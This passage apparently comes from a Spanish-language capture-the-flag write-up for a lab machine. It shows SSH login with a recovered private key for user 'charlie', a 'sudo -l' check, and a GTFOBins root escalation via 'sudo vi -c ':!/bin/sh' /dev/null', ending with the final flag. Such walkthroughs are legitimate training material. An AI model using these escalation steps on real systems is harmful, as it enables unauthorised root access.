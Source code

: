 Se encuentra la *id_rsa* del usuario `charlie`.
#### SSH

Se accede al servicio **SSH** con el usuario (`charlie`) y la id_rsa.

Se dan permisos a la *id_rsa*.

`chmod 600 teleport`

`ssh -i teleport charlie@10.10.220.186`

![[Pasted image 20250724200911.png]]
#### Sudo



`sudo -l`

![[Pasted image 20250724201015.png]]

En  [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo) se encuentra que `vi` puede ser usado con `sudo` para obtener una shell privilegiada.

![[Pasted image 20250724201116.png]]

`sudo vi -c ':!/bin/sh' /dev/null`

![[Pasted image 20250724201148.png]]

Se accede al directorio: `/root`.

`ls`

![[Pasted image 20250724201231.png]]

`cat root.py`

![[Pasted image 20250724201258.png]]

`python root.py`

Finalmente, el script `root.py` solicita la clave identificada previamente (`key_rev_key`), y al introducirla, muestra la flag final de la máquina.

---
